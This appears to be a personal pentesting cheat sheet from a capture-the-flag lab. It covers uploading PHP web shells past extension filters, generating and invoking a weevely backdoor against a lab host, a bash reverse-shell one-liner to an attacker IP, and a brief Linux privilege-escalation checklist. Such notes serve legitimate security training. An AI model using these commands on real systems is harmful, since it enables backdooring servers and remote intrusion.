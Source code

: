 

## PHP WEB SHELLS
When a website is using php and you can upload lets say a pdf a good way to see if you can upload a php file is to filter the extensions uploaded just file the end of the filename extension for common ones with 

https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/Upload%
20Insecure%20Files/Extension%20PHP/extensions.lst


use intruder for this in burpsuite


if you can upload it now you need to find the uploads content you can use SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt to filter fuzz for the uploads directory

https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php


if you can upload and go to a php web shell but it is failing maybe try to invoke The phpinfo() output provides us with a list of all disabled functions, which includes most code
execution functions. 

to bypass filters we can use https://github.com/epinna/weevely3 which is on kali. 

use it like 
1. Generate shell
```
weevely generate 'p4wn4g386!' backdoor.phar
```

2. upload the shell

3. Invoke the shell
```
weevely http://hospital.htb:8080/uploads/backdoor.phar 'p4wn4g386!'
```

4. Migrate to Netcat with by first setting up a listener on your attacking host

5. invoke rev shell to your host 
bash -c 'bash -i >& /dev/tcp/10.10.14.14/4444 0>&1' 






## PrivEsc Linux

check the kernel version always remember to do this 

```
uname -a
```


Run Linpeas. 

Check for chmod scripts 

check for env credentials (especially in docker or other containers)

